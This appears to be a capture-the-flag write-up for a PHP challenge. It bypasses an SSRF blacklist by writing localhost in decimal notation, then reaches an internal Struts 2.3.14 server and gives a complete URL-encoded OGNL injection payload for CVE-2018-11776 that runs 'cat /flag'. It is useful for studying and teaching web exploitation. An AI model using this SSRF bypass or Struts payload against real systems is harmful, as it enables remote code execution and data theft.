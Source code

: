 This challenge is another PHP application, where you can fetch url and see the response.  
It's an obvious SSRF Challenge with a blacklist filter:  
```php
$url = $_POST['url'];
$parsed = parse_url($url);
$scheme = $parsed['scheme'];
if($scheme !== 'http'){
	die('Hacking attempt');
	}
$blacklist = ["127","local","::","http://0/"];
foreach ($blacklist as $value) {
	if (stripos($url,$value) !== false) 
		die('Hacking attempt');
}
if (substr_count($parsed['host'], '.') > 0){
	die('hacking attempt');
}
```
So it seems its not possible to use other sheme than http, also there is a filter on localhost address and ipv6 notation, and there is a count for dots in host scheme,  
so it seems domain bypass is not possible, One possible way to bypass this filter is use decimal notation http://2130706433/  
The next step is scan internal network for other services, the only other service is running on port 8080, which shows tomcat default page.  
The hint suggested that I was using Struts version 2.3.14, you can  then find out  that this [version](https://www.securityfocus.com/bid/105125) was vulnerable to CVE-2018-11776  
I was using this exact container : https://github.com/bhdresh/CVE-2018-11776 
The only difference is that your payload will be through ssrf to you might have to encode your payloads  
After getting rce, the goal was to read the file /flag , the full payload(in browser) looks like : http://2130706433:8080/struts2-showcase-2.3.14/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/flag%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/help.action
